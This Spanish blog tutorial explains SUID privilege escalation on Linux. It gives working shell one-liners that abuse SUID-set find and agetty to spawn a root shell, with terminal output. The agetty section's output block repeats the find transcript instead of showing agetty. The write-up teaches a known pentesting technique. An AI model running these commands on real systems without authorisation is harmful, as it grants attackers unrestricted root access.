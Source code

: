 ```yaml
---
layout: single
title: Escalando Privilegios - SUID - FIND & AGETTY 1.1.1
excerpt: "Escalar privilegios - consiste en abrirse camino a través de vulnerabilidades del sistema para tener acceso a *comandos* que nos permitan manipular la máquina sin restricción alguna. Hablamos de *escalar* porque se inicia desde un nivel inferior de comandos muy limitados. En esta oportunidad presentaremos un caso en el que se aprovecha la vulnerabilidad *bit SUID* el cual es un permiso que cuando se le otorga a un *fichero* permite que quien lo ejecute pueda tener los mismos permisos del creador."
date: 2022-03-13
classes: wide
header:
  teaser: /assets/images/htb-write-Esprivilegios/Escprivilegios.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - vulnerabilidad
  - infosec
tags:  
  - privilegios
  - basic
  - escalar
  - suid
  - vulnerabilidad
---
```


![](/assets/images/htb-write-Esprivilegios/Escprivilegios.png)

Escalar privilegios - consiste en abrirse camino a través de vulnerabilidades del sistema para tener acceso a *comandos* que nos permitan manipular la máquina sin restricción alguna. Hablamos de *escalar* porque se inicia desde un nivel inferior de comandos   muy limitados. En esta oportunidad presentaremos un caso en el que se aprovecha la vulnerabilidad *bit SUID (Set ID de Usuario en Ejecución)* el cual es un permiso que cuando se le otorga a un *fichero* permite que quien lo ejecute pueda tener los mismos permisos del creador del archivo. 


Conocimientos necesarios

-Permisos, derechos y atributos en Linux
-Permisos especiales : SUID


Si el creador del fichero es el usuario `root` podremos acceder a sus privilegios si este por ejemplo le asigna al comando `find` (es una herramienta de busqueda) el permiso SUID 

`❯ chmod 4755 /usr/bin/find`

Observaremos que la `X` (execute) de los permisos del `propietario` es remplazada por una `s` (SetUID)

```
❯ which find | xargs ls -l
-rwxr-xr-x 1 root root 311008 ene  9  2021 /usr/bin/find
❯ chmod 4755 /usr/bin/find
❯ which find | xargs ls -l
-rwsr-xr-x 1 root root 311008 ene  9  2021 /usr/bin/find
```

Un usuario puede salir de su entorno restringido al generar un shell de sistema interactivo con la siguiente instrucción `find . -exec /bin/sh \; -quit` y tener todos los privilegios del usuario que creo el archivo (en este caso root).

```
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $whoami
pepito
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $find . -exec /bin/sh -p \; -quit
# whoami
root
# 
 ```

Este procedimiento se puedo aplicar para cualquier fichero, en este caso probamos la instrucción  `agetty`

```
-rwxr-xr-x 1 root root 64936 ene 20 17:10 /usr/sbin/agetty
❯ chmod 4755 /usr/sbin/agetty
❯ which agetty | xargs ls -l
-rwsr-xr-x 1 root root 64936 ene 20 17:10 /usr/sbin/agetty
```

Desde el mismo usuario "pepito" con privilegios limitados podremos acceder al usuario root sin escribir CONTRASEÑA alguna, ejecutando la siguiente linea `agetty -o -p -l /bin/sh -a root tty`

```  
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $whoami
pepito
┌─[pepito@Tahy]─[/home/tahy]
└──╼ $find . -exec /bin/sh -p \; -quit
# whoami  
root
# 
```  

Siendo esta una de las vulnerabilidades más basica y primarias del pentestting.

fuentes

- [https://www.mastermind.ac/courses/introduccion-al-hacking-etico](https://www.mastermind.ac/courses/introduccion-al-hacking-etico)
- [https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html](https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html
)
- [https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/](https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/)

- [https://gtfobins.github.io/](https://gtfobins.github.io/)

